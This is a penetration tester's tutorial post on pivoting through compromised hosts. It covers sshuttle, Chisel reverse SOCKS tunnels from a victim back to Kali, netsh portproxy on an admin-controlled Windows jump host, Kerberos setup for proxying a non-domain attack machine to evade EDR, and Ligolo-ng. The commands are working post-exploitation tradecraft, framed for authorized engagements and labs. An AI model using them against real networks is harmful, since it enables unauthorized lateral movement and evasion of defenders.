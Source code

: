 ```yaml
---
published: true
---
```

Here I will be showing the easiest and most useful pivot techniques I use on penetration testing engagements as well as HackTheBox Pro Lab networks. We will not be discussing other types of pivots, including the myriad ways to bend SSH to your will as those topics are already well documented.

This article will discuss pivoting from multiple scenarios, including:

- Pivoting through a SSH host to the internal network
- Pivoting using Chisel (cross-platform tool)
- Pivoting through a Windows host using Netsh
- Pivoting a Windows attack host through a SSH connection using Proxifier (Bring Your Own Land)
- Cross-Platform pivoting without admin/root

## Pivoting through a SSH host to the internal network

Typically this discussion would include mention of proxychains. Proxychains will not be covered because not only is it well documented, but there are easier ways. In this case my preference is to use [Sshuttle](https://github.com/sshuttle/sshuttle). When using Sshuttle, you essentially turn a SSH connection into a VPN tunnel. I'm pretty sure that that it was Cale Black (poptart/@PastrySec) is who turned me on to this awesome resource when we were working together a few years ago.

Some scenarios where I prefer to use Sshuttle:

- Internal network pentests performed remote via a Linux laptop or virtual machine sent to the client. On boot the device connects out to an OpenVPN server and the pentester connects to SSH on the device over the VPN.
- You have compromised a host running a SSH server and need to use it to tunnel traffic to another network. In this case, Sshuttle is much easier to use than proxychains because it acts like a VPN connection and you don't need to prefix commands with 'proxychains'.

Example Sshuttle command: `sudo sshuttle -r root@<vpn server> <network> --ssh-cmd 'ssh -i /home/kali/root_key' -x <vpn server>`

Where:

- After the obvious connection string `sudo sshuttle -r root@<vpn server>`, the `<network>` is the network address we want to access on the other side of the ssh connection. If you have multiple 10.x or 192.x networks on the other side of the ssh host that you want to pivot to, you can replace the target network address with either a supernet address, or 0/0 which means tunnel everything. You can also replace this option with `-s <file>` if you want to tunnel a list of networks from a file instead of on the command line.
- The `--ssh-cmd 'ssh -i /home/kali/root_key'` option is required only if the ssh connection requires an ssh key.
- The `-x` option is always required. The -x option excludes tunneling any traffic to this address, because you don't want to tunnel traffic to the connection host and you also don't want to tunnel traffic from your local network. You can add additional -x IP or network addresses to prevent any locally connected networks from being sent through the tunnel, which would be required if you used 0/0 for the network address because you wanted to tunnel to multiple networks behind the ssh host. Each additional exclude address requires another `-x` prefix, as in `-x 192.168.150.0/24 -x 192.168.1.0/24`.
- You may want to use the `--dns` option to tunnel all DNS requests through the tunnel.

## Pivoting using Chisel

[Chisel](https://github.com/jpillora/chisel) is a fast TCP/UDP tunnel written in Golang.

We have a shell on a host and want to tunnel traffic to a network which we can't access from our Kali host such as: `<Kali> <-> <Web Server> <-> <Target Network>`

First we need to start Chisel on Kali: `./chisel server -p 8001 --reverse`

On Victim run `./chisel client <Kali IP>:8001 R:1080:socks`

Before we can use this tunnel we'll need to edit `/etc/proxychains.conf` and add `socks5 127.0.0.1 1080`.

Now when we want to proxy tools through the tunnel we precede the command with proxychains, such as `proxychains nmap -sT ...`. By the way, you'll need to specify connect scans `-sT` when running Nmap over proxychains. Don't expect it to be fast either.

In the next scenario, let's assume that we are on Kali and in addition to the `<Web Server>`, we've also compromised `<Server>` and want to proxy through it to connect to a host in an adjacent network that only this host can access, such as a PCI CDE: `<Kali> <-> <Web Server> <-> <Server> <-> <Remote network target>`

In this case, we need to go to the `<Web Server>` and run an additional Chisel command (two simultaneous Chisel processes): `./chisel server -p 8002 --reverse`

Then on the `<Server>` we run `./chisel client <Web Server>:8002 R:2080:socks`

Finally we add another line to our proxychains.conf file: `socks5 127.0.0.1 2080`

## Pivoting through a Windows host using Netsh Portproxy

In this scenario, imagine that we're on an Internal network pentest and the goal is to gain access to the PCI CDE. We've discovered a Windows jump host by recognizing the hostname includes 'jmp' or 'jump'. We have credentials that CrackMapExec tells us is an admin on the box (Pwn3d!), but we can't RDP to the box because it requires MFA. Other ports such as SMB and WinRM are exposed. Yes, I've seen this scenario on PCI pentests a few times and I always recommend that the client firewall off the ports that aren't behind MFA.

You need to be a local administrator to add and remove netsh portproxies, regardless of the bind port.

Using CrackMapExec, Evil-WinRM, PowerShell invoke-pssession, etc., run the following command: `netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=<port> connectaddress=<address> connectport=<port> protocol=tcp`

Where:

- listenaddress is the IP address to listen on (probably always 0.0.0.0).
- listenport is the port to listen on.
- connectaddress is the destination IP address.
- connectport is the destination port.
- protocol to use (always TCP).

You can check it's there with netsh interface portproxy show.

To remove the portproxy: netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444

## Pivoting a Windows attack host through a SSH connection using Proxifier

This is a technique referred to as [Bring Your Own Land (BYOL)](https://www.mandiant.com/resources/bring-your-own-land-novel-red-teaming-technique). The concept is that instead of running offensive security tools on a host covered by the Blue Team's EDR you proxy a system you own and have disabled antivirus to run your tools. In my case I normally use this technique when performing internal network pentests and I'm up against a capable Blue Team and even though it's a pentest, not a red team engagement, I don't want to get kicked and I take pride in doing my best to evade detection. We send a laptop or virtual machine running Kali to our client who plugs it into the network. After boot, it connects out to our OpenVPN server and the pentester connects to the VPN and finally ssh's into the laptop using ssh keys. Before running Proxifier, I setup my SSH connection using Putty and PuttyGen.

Note: This reuires Proxifier, which isn't free. They do provide a 31 day unrestricted trial. Also, note that I base these instructions off of the [original work](https://posts.specterops.io/proxy-windows-tooling-via-socks-c1af66daeef3) by a friend and former coworker, Nick Powers.

I won't repeat all of Nick's work here. Go and read his blog post. After reading it, I still had some issues when using runas from a non-domain joined system. On a domain joined machine it will look up the Kerberos SRV record based on the domain name the machine is joined to. Since we are not joined to the domain, the client will fail to resolve the KDC. We can work around this issue by manually registering a Kerberos realm within Windows from the attacking host machine.

Open an administrator cmd prompt and enter the following commands, substituting the domain name in all caps and domain controller fully qualified domain name:

```
ksetup /addkdc DOMAININALLCAPS [domain controller fqdn]
ksetup /setrealmflags DOMAININALLCAPS tcpsupported
```

Now restart the computer.

When you use the runas command, ensure you include the /netonly and /noprofile options. To test your settings, use the runas command `runas /netonly /noprofile /user:[domain]\[username] cmd.exe`, then net use the Domain Controller FQDN in the command `net use \\[fqdn]\netlogon`, then `dir \\[fqdn]\netlogon` and you should be able to browse files on the share and run various C# offensive tools as well as PowerShell remoting.

## Cross-Platform pivoting without admin/root

[Ligolo-ng](https://github.com/nicocha30/ligolo-ng) can be used for tunneling like a VPN, without the need for admin rights on the pivot host. Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS).

Features:
- Tun interface (No more SOCKS!)
- Simple UI with agent selection and network information
- Easy to use and setup
- Automatic certificate configuration with Let's Encrypt
- Performant (Multiplexing)
- Does not require high privileges
- Socket listening/binding on the agent
- Multiple platforms supported for the agent
- Can handle multiple tunnels